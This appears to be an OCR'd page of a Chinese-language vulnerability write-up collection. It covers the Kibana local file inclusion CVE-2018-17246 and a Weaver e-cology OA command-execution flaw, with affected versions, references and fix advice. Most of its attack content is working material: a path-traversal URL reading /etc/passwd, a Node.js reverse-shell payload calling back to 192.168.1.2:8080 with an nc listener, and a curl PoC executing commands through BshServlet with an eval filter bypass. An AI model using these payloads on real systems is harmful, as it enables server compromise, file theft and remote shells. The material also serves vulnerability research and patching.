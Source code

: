 2. 影响版本
      ElasticSearch Kibana < 6.4.3
      ElasticSearch Kibana < 5.6.13

3. 利用方法
      读文件操作
      http://192.168.1.3:5601/api/console/api_server?sense_version=%4
      0%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd
      反弹shell在kibana的机器创建 /tmp/shell.js

4. (function(){ var net = require("net"), cp = 
      require("child_process"), sh = cp.spawn("/bin/sh", []); var
      client = new net.Socket(); client.connect(8080, 
      "192.168.1.2", function(){ client.pipe(sh.stdin); 
      sh.stdout.pipe(client); sh.stderr.pipe(client); }); return
      /a/; })();
      请求包含刚刚创建的shell：
      http://192.168.1.3:5601/api/console/api_server?sense_version=%4
      0%40SENSE_VERSION&apis=../../../../../../../../../../../tmp/shell.js

5. 本地监听：
      nc -l 8080 -v

6. 漏洞复现
      Elasticsearch 核心插件Kibana 本地文件包含漏洞分析（CVE-2018-
      17246）
      https://www.anquanke.com/post/id/168291
      ELK LFI CVE-2018-17246
      https://wh0ale.github.io/2018/12/18/2018-12-18-
      ELK%20LFI%20CVE-2018-17246/

7. 坑点
      最终漏洞的影响关键在于如何创建shell文件。

8. 修复建议
      目前厂商已发布升级补丁以修复漏洞，补丁获取链接:
      https://access.redhat.com/security/cve/cve-2018-17246

##    泛微OA相关

###    泛微OA系统多版本存在命令执行漏洞

1. 漏洞简介
      泛微OA办公系统是一款协调办公软件。
      泛微协同商务软件系统存在命令执行漏洞，攻击者可利用该漏洞获取服
      务器权限。
2. 影响范围
      泛微 e-cology<=9.0
3. 漏洞复现
      https://www.cnblogs.com/Sylon/p/11765543.html
4. Poc
      漏洞路径:/weaver/bsh.servlet.BshServlet
      exec("whoami")curl 
      http://xx.xx.xx.xx.xx/weaver/bsh.servlet.BshServlet/ -d 
      'bsh.script=eval%00("ex"%2b"ec("whoami")");&bsh.servlet.capture
      OutErr=true&bsh.servlet.outp ut=raw'
5. 批量检测工具
      https://github.com/sunird/e-cology-poc
6. 防护方法
      屏蔽/weaver/*目录的访问；
      https://www.weaver.com.cn/cs/securityDownload.asp

